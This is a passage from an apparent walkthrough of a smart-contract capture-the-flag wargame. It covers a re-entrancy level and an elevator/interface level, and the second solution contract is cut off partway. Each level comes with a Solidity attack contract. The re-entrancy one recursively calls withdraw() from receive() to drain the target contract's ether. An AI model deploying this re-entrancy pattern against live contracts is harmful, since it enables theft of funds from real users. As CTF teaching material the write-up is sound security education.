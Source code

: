 The job is done! Any transaction sending ether to this contract will revert.

# 10. Re-entrancy

From name, it is clear that this level is based on the famous **Ethereum DAO attack** because of which Ethereum classic was formed. The hack here is that in the `withdraw()` first the money is sent to the caller contract and after that, the balance of the caller contract is deducted. What if the caller contract has a receive function which again calls the withdraw function? The execution will never reach `balances[msg.sender] -= _amount;` and the balance of the entire contract will be drained. Here is the solution contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Re-entrancy.sol";

contract Test {
    Reentrance public re;

    constructor(address payable addr) public {
        re = Reentrance(addr);
    }

    function withdraw() public {
        re.withdraw(0.001 ether);
    }

    function addFunds() public payable {}

    receive() external payable {
        if (address(this).balance < 0.002 ether) {
            withdraw();
        }
    }
}
```

# 11.  Elevator

This level is all about interfaces. Once you know that an interface can be used to communicate between two contracts and one contract can implement interface from another contract,  you can easily solve this level. In our attack contract, we just have to implement the `isLastFloor()` of the **Building** interface in a way that the conditions in the `goTo()` are bypassed.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract Test {
    Elevator public ele;
    bool private isT = false;

    constructor(address payable addr) public {
        ele = Elevator(addr);
    }

    function isLastFloor(uint256 floor) external returns (bool) {
        if (!isT && floor == 1) {
            isT = true;
            return false;
        } else {
```